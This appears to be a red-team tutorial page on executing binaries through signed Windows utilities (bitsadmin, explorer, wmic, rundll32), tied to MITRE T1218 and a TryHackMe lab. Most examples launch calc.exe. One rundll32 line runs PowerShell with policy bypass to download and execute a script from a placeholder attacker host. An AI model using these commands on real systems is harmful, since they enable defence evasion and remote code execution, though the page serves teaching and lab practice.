 # File Operations

## Theory

Here, we will show various ways of executing a binary within the operating system. The typical case of executing a binary involves various known methods such as using the command line cmd.exe or from the desktop. However, other ways exist to achieve payload execution by abusing other system binaries, of which one of the reasons is to hide or harden the payload's process. . This techniques are covered by the [LOLBAS project](https://lolbas-project.github.io)
Based on the MITRE ATT&CK framework, this technique is called **Signed Binary Proxy Execution** or **Indirect Command Execution**.

## Practice

{% tabs %}
{% tab title="BITSAdmin.exe" %}
The bitsadmin tool is a system administrator utility that can be used to create, download or upload Background Intelligent Transfer Service (BITS) jobs and check their progress. [BITS](https://learn.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) is a low-bandwidth and asynchronous method to download and upload files from HTTP webservers and SMB servers. Additional information about the bitsadmin tool can be found at [Microsoft Docs](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin).

```bash
#Execute a file
#One-liner that creates a bitsadmin job named 1, add cmd.exe to the job, configure the job to run the target command, then resume and complete the job. 
bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /SetNotifyCmdLine 1 c:\data\playfolder\cmd.exe NULL & bitsadmin /RESUME 1 & bitsadmin /Reset
```
{% endtab %}
{% tab title="explorer.exe" %}
File Explorer is a file manager and system component for Windows. People found that using the file explorer binary can execute other .exe files. This technique is called Indirect Command Execution, where the explorer.exe tool can be used and abused to launch malicious scripts or executables from a trusted parent process.

```bash
#Create a child process of explorer.exe
explorer.exe /root,"C:\Windows\System32\calc.exe"
```
{% endtab %}
{% tab title="wmic.exe" %}
Windows Management Instrumentation (WMIC) is a Windows command-line utility that manages Windows components. People found that WMIC is also used to execute binaries for evading defensive measures. 

```bash
#Execute calc.exe
wmic.exe process call create calc
```
The MITRE ATT&CK framework refers to this technique as [Signed Binary Proxy Execution (T1218)](https://attack.mitre.org/techniques/T1218/)
{% endtab %}


{% tab title="rundll32.exe" %}
Rundll32 is a Microsoft built-in tool that loads and runs Dynamic Link Library DLL files within the operating system. A red team can abuse and leverage rundll32.exe to run arbitrary payloads and execute JavaScript and PowerShell scripts. 

```bash
#Execute Binary - calc.exe
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");

#Execute powershell scripts
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");
```
The MITRE ATT&CK framework refers to this technique as [Signed Binary Proxy Execution (T1218)](https://attack.mitre.org/techniques/T1218/)
{% endtab %}
{% endtabs %}

{% hint style="danger" %}
Note that other tools can be used for file executions. We suggest visiting the [LOLBAS](https://lolbas-project.github.io/)[ ](https://lolbas-project.github.io/)project to check them out.
{% endhint %}



## References

{% embed url="https://tryhackme.com/room/livingofftheland" %}
{% embed url="https://lolbas-project.github.io/#" %}